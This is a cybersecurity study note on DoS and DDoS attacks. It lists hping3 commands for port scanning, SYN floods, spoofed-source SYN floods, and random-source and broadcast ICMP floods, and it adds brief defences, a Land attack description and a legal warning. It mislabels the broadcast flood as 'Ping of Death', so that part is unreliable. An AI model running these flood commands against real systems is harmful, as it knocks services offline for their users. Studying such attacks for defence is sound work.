 ### **DoS (Denial of Service)** and **DDoS (Distributed Denial of Service)**

- **DoS (Denial of Service)**: A type of attack where the attacker overwhelms a system or network with traffic, making it unable to function properly. This is typically done by sending a large number of requests to a target server, consuming all its resources.
- **DDoS (Distributed Denial of Service)**: A more advanced version of DoS where the attack comes from multiple sources (often compromised machines), making it harder to stop.

---

### **Common DoS and DDoS Commands** with **hping3**

- **Check Port Range**:
    
    ```bash
    sudo hping3 -S --scan <port_range> <target_ip>
    ```
    
    - This checks for open ports in a given range.
- **Check Specific Port**:
    
    ```bash
    sudo hping3 -S -p 80 <target_ip>
    ```
    
    - This checks if a specific port (like port 80) is open.
- **Performing a DoS Attack (Flooding with SYN Packets)**:
    
    ```bash
    sudo hping3 -S -p 80 <target_ip> --flood
    ```
    
    - Floods the target with SYN packets.
- **SYN Flood with IP Spoofing**:
    
    ```bash
    sudo hping3 -S -p 80 <target_ip> -a <fake_source_ip> --flood
    ```
    
    - Spoofs the source IP to flood the target. This is an **IP Spoofing** or **Spoofing attack**.

---

### **Smurf Attack (ICMP-based DoS Attack)**

- **What is it?**: A **Smurf attack** involves using ICMP packets (ping requests) to flood a target network by spoofing the source IP.
- **Commands**:
    - **Flood Target with ICMP Packets**:
        
        ```bash
        sudo hping3 --icmp <target_ip> --rand-source --flood
        ```
        
        - Floods the target IP using random source IPs (IP Spoofing).
    - **Ping of Death** (ICMP flooding):
        
        ```bash
        sudo hping3 --icmp <broadcast_address> --rand-source --flood
        ```
        
        - Floods all machines in the network using a **broadcast address** (e.g., `192.168.0.255`), causing all devices to lose internet access.

---

### **Preventive Measures for DoS Attacks**

- **Block Ports**: Block the attacked port on the firewall to prevent traffic from reaching that port.
- **Intrusion Detection Systems (IDS)**: Use IDS to detect and prevent malicious traffic.
- **Rate Limiting**: Implement rate limiting on web servers to prevent abuse.

---

### **Land Attack** (A Type of DoS)

- **What is it?**: In a **Land Attack**, the attacker spoofs the source IP to be the same as the target’s destination IP. The server then tries to respond to itself, causing confusion and possibly crashing the system.

---

### **Important Reminder**

- **Legal Warning**: It is illegal to perform DoS or DDoS attacks on live websites without authorization. These activities can lead to serious consequences.

---
